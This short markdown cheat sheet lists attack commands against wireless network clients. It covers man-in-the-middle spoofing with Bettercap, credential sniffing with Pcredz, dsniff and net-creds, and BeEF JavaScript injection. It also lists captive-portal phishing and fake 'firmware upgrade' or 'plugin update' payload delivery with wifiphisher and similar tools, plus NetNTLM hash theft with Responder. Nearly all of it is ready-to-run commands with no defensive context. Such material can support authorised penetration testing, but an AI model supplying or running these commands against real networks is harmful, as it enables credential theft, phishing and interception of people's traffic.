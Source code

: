 # Clients Attacks:    
## Standard Man-in-the-Middle Attacks    

### DNS Spoofing  
Bettercap > dns.spoof module  

### ARP Spoofing    
-- Not needed when client connected to rogue AP because attacker already in position of MitM    
Bettercap > arp.spoof module    
### Credentials Sniffing    
Bettercap > net.sniff module    
Pcredz -i <interface> -v    
python net-creds.py -i <interface>    
dsniff -i <interface>    

### JS Injection    
Bettercap > caplet beef-active    

## Captive Portal Attack    
### Phishing (Social Engineering)    
wifiphisher -aI <interface_rogue_AP> -eI <interface_deauthenticating> -iI <internet_interface> -p firmware-upgrade --handshake-capture handshake.pcap --essid <target_SSID> -kN    
wifipumpkin3 --xpulp "set interface wlan0; set ssid <SSID>; set proxy captiveflask; start"    
Add --captive-portal in eaphammer command    
airgeddon.sh    
fluxion.sh    

### Payload Delivery    
wifiphisher -aI <interface_rogue_AP> -jI <interface_jamming> -p plugin_update --handshake-capture handshake.pcap -kN    

## NetNTLM Hash Stealing    
### Hostile Portal Attack (Redirect to SMB)    
Add --hostile-portal in eaphammer command    
HTTP traffic redirected to SMB share on attacker's machine    
NBT-NS/LLMNR Poisoning    
Responder.py -I <interface> -wrf    

## Passive Sniffing    
### Traffic Decryption    
Wireshark (requires PSK or PMK)    
airdecap-ng -e <ESSID> -p <passphrase> <capture_pcap>    
